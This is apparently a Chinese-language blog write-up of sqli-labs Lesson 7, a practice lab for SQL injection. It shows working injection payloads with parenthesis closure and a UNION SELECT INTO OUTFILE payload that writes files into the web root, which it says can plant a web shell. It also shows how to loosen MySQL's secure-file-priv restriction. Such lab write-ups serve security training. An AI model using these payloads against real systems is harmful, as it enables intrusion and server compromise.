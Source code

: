 ```yaml
---
title: sqli-labs-lession 7 文件导入
date: 2018-09-25 21:58:44
tags:
categories: sql注入
---
```

# sqli-labs-lession 7 文件导入 #
---

## 登录界面 ##

![1](/img/sql/Lesson-7/1.png)

## 注入 ##

提示使用`Use outfile`,本关使用文件导入的方式进行注入。

### 处理参数 ###

日常测试

`http://10.60.250.151/sqlilabs/Less-7/?id=1'`

![2](/img/sql/Lesson-7/2.png)

返回报错信息

猜测是单引号闭合

`http://10.60.250.151/sqlilabs/Less-7/?id=1' or 1=1%23`

![3](/img/sql/Lesson-7/3.png)

构造失败,猜测有括号闭合,尝试一下:

`http://10.60.250.151/sqlilabs/Less-7/?id=1') or 1=1%23`

还是不行,再加一个括号闭合

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) or 1=1%23`

![4](/img/sql/Lesson-7/4.png)

返回成功的页面。查看源码检验。

![5](/img/sql/Lesson-7/5.png)

果然如此。

### 利用文件导入 ###

和往常一样3列

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) order by 3%23`

需要设置文件路径:(`\\`避免路径出错)

`C:\\phpStudy\\PHPTutorial\\WWW\\sqlilabs\\Less-7\\`

![6](/img/sql/Lesson-7/6.png)

`http://10.60.250.151/sqlilabs/Less-7/?id=1')) union select 1,2,3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\sqlilabs\\Less-7\\1.txt"%23`

![10](/img/sql/Lesson-7/10.png)

虽然上面报错了,但是我的文件成功插入了。

![11](/img/sql/Lesson-7/11.png)

这个漏洞可以用来上传一句话木马。

### 可能遇到的错误 ###

#### secure-file-priv ####

如果文件导入不成功,确认Mysql配置文件`my.ini`下存在`secure-file-priv`

secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出

* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下

* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

使用命令`show global variables like '%secure%';`查看`secure-file-priv`参数的值：

![7](/img/sql/Lesson-7/7.png)

在phpMyadmin中查询命令也可以发现`secure-file-priv`拒绝执行语句

![8](/img/sql/Lesson-7/8.png)

修改`my.ini`添加`secure-file-priv`参数,没有填具体值表示不做限制(这样做其实很危险)

![9](/img/sql/Lesson-7/9.png)

<font color=red>保存好后重启MYSQL</font>

